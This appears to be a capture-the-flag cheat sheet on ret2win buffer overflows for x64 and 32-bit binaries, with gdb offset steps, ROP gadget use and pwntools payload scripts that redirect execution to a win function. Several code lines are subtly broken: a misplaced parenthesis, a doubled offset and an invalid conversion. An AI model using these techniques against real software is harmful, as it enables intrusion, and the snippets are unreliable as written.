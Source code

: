 ret2win
---
> ret2win refers to challenges where overwriting the return address to a certain function will give the flag.

## x64
Basically if there's a win function in the binary, it has got to be ret2win. Most of the time, it'll be a buffer overflow to control the return address.

The stack may look like this:

```
Buffer                    RBP                       RBP + 8 (RIP)
+-------------------------+-------------------------+-------------------------+
| 41 41 41 41 41 41 41 41 | 00 00 00 00 00 00 00 00 | f5 91 53 13 00 00 00 00 |
+-------------------------+-------------------------+-------------------------+
````

To get the offset of RBP:

```
(gdb)
pattern create 100
r
pattern search $rbp
```

The goal is to overflow input into RBP + 8 (which holds the return address, and change its value to the return address of another function in the binary.
This can be achieved with pwntools via this:
```py
from pwn import *
with process("./binary") as p:
    offset = 8
    win = int(b"0x400df8", 16)
    p.sendline(b'A'*offset + p64(win)(
    p.interactive()
```

### Calling convention
If the win function requires specific parameters to pass, we need to make use of certain snippets of assembly in the program (known as gadgets) to modify the contents of the registers.

The 6 registers used for function parameters (x64) are:
1. RDI
2. RSI
3. RDX
4. RCX
5. R8
6. R9

When a function is called, it takes its parameters from these registers sequentially. Let's say we have a function win(username, password). The value of username is taken from RDI, and password from RSI. So, to control these 2, we need to find certain gadgets in the program that allow us to call them, pop a value from the top of the stack into a register, and return to another address.

To find these gadgets, we can make use of ROPgadget:

```bash
$ ROPgadget --binary ./<binary>

...
0x00000000004010a3 : pop rdi ; ret
0x00000000004010a1 : pop rsi ; pop r15 ; ret
...
```

What do the 2 gadgets above do? The first stores the top value in the stack into RDI, and returns to the address indicated by the second-top value. The second stores the top value into RSI, the second-top value into R15, and returns to the address indicated by the third-top value. Since we're interested in the first 2 registers (RDI and RSI) and not R15, our payload can look something like this:

```py
p.sendline(b'A'*offset + b'A'*offset + p64(0x4010a3) + p64(0xdeadbeef) + p64(0x4010a1) + p64(int([hex(i)[2:] for i in b'password', 16])) + p64(0) + p64(win))
#          offset        offset        1st gadget	   RDI value         2nd gadget      RSI value                                             R15      win function
```

## x32
For 32-bit, we want to control EIP instead. The offset can be easily found using gdb.

```
pattern create 100
r
pattern search $eip
```

The rest of the steps are pretty much similar to x64, so I won't overflow this cheatsheet.

### Calling convention
32-bit calling conventions are much easier to handle as compared to x64: they're all on the stack! This means that we don't need to deal with gadgets etc, which can be useful in some cases where the libc is not loaded into the binary, which means we have a lot less gadgets that we can use. For ret2win, we just need to push our desired values to the stack after calling our gadget/function.

For example:
```py
payload = b'A' * 1337 + p32(0x12345678) + p32(0xdeadbeef) + p32(0xcafebabe)
# 		  win function		first param		  second param and so on...
```

Note that if you want to chain functions after the function with arguments, you need to pop the TOS so that we don't
return to that undefined address. Any register is fine, eg: `pop ebp; ret`.
